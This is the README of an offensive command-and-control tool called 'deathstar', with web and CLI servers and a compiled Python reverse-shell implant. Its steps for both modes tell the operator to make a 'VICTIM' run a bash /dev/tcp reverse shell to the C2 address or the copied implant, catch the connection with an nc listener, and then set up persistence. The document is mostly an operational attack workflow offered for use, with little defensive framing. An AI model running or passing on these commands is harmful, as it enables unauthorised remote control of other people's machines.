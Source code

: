# deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
    - `python3 deathstar-web.py`
2. Open link in web browser
    - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
4. Start your listener 
    - `nc -nvlp 4444`
5. Forward the connection to your listener
    - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
    - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
    - `python3 deathstar-term.py`
2. Have Victim connect to C2
    - Linux / MacOS
      - This will drop the moment the C2 server 'drops'
      - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
    - Python reverse shell
      - This will continue to connect to the C2 server even after it 'drops'
      - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
      - `bash compiler.sh stardestroyer.py`
      - Copy `stardestoryer` to VICTIM
      - `chmod +x stardestroyer`
      - `./stardestroyer`
3. Start your listener 
    - `nc -nvlp 4444`
4. Forward the connection to your listener
    - On the CLI, list the connections.
      - Select `2)` to forward.
      - Specify the `ID` of the `VICTIM` you'd like to forward.
      - Then, type the IP of your `LISTENING` device.
5.Catch the connection
    - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.


